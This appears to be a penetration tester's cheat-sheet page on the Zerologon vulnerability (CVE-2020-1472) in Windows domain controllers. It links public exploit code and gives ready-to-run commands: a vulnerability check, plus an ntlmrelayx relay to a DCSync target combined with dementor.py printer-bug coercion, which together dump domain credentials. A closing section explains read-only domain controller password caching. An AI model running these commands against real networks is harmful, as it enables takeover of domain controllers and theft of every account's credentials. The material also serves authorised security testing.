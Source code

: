 ```yaml
---
description: CVE-2020-1472
---
```


# Zerologon

* [https://www.secura.com/uploads/whitepapers/Zerologon.pdf](https://www.secura.com/uploads/whitepapers/Zerologon.pdf)
* [https://twitter.com/\_dirkjan/status/1306280566313156608](https://twitter.com/_dirkjan/status/1306280566313156608)
* [[PDF] Understanding and Exploiting Zerologon (Lucideus)](https://dl.packetstormsecurity.net/papers/general/Understanding_and_Exploiting_Zerologon.pdf)

Check:

* [https://github.com/SecuraBV/CVE-2020-1472](https://github.com/SecuraBV/CVE-2020-1472)

```
$ python3 zerologon_tester.py DC01 10.10.13.38
```

Exploit:

* [https://github.com/dirkjanm/CVE-2020-1472](https://github.com/dirkjanm/CVE-2020-1472)
* [https://github.com/blackarrowsec/redteam-research/tree/master/CVE-2020-1472](https://github.com/blackarrowsec/redteam-research/tree/master/CVE-2020-1472)

Exploits above **will break the domain!** Use this technique by @dirkjanm to abuse Zerologon safely:

* [https://dirkjanm.io/a-different-way-of-abusing-zerologon/](https://dirkjanm.io/a-different-way-of-abusing-zerologon/)

```
$ sudo ntlmrelayx.py -t dcsync://DC01.megacorp.local -smb2support
$ python dementor.py -d megacorp.local -u snovvcrash -p 'Passw0rd!' 10.10.13.37 DC02.megacorp.local
```




## RODC Notes

Checking that a DC is a RODC (see if `WRITABLE` flag is present):

```
PS > nltest.exe /dsgetdc:megacorp.local
PS > nltest.exe /dsgetdc:megacorp.local /server:DC1
```

* [https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-nrpc/3a9ed16f-8014-45ae-80af-c0ecb06e2db9](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-nrpc/3a9ed16f-8014-45ae-80af-c0ecb06e2db9)
* [https://lists.samba.org/archive/samba-technical/2016-November/117016.html](https://lists.samba.org/archive/samba-technical/2016-November/117016.html)
* [https://github.com/gentilkiwi/mimikatz/blob/fe4e98405589e96ed6de5e05ce3c872f8108c0a0/mimikatz/modules/kuhl_m_lsadump.c#L2467](https://github.com/gentilkiwi/mimikatz/blob/fe4e98405589e96ed6de5e05ce3c872f8108c0a0/mimikatz/modules/kuhl_m_lsadump.c#L2467)
* [https://social.technet.microsoft.com/Forums/Lync/en-US/3f29f03e-9d9b-43ba-b628-3f0afc25352e/user-amp-computer-authentication-through-rodc?forum=winserverDS](https://social.technet.microsoft.com/Forums/Lync/en-US/3f29f03e-9d9b-43ba-b628-3f0afc25352e/user-amp-computer-authentication-through-rodc?forum=winserverDS)

> "When a user authenticates to an RODC a check is performed to see if the password is cached. If the password is cached, the RODC will authenticate the user account locally. If the user’s password is not cached, then the RODC forwards the authentication request to a writable Domain Controller which in turn authenticates the account and passes the authenticated request back to the RODC. Once the user account is authenticated, the RODC makes another request for the replication of the user’s password in a unidirectional replication providing the account has been configured to allow replication. In order to allow the user password to be cached on RODC, you could set up it by configuring the Password Replication Policy."

So when authenticating at a RODC and Password Replication Policy rejects caching the machine password, then `STATUS_NO_TRUST_SAM_ACCOUNT` may be met.
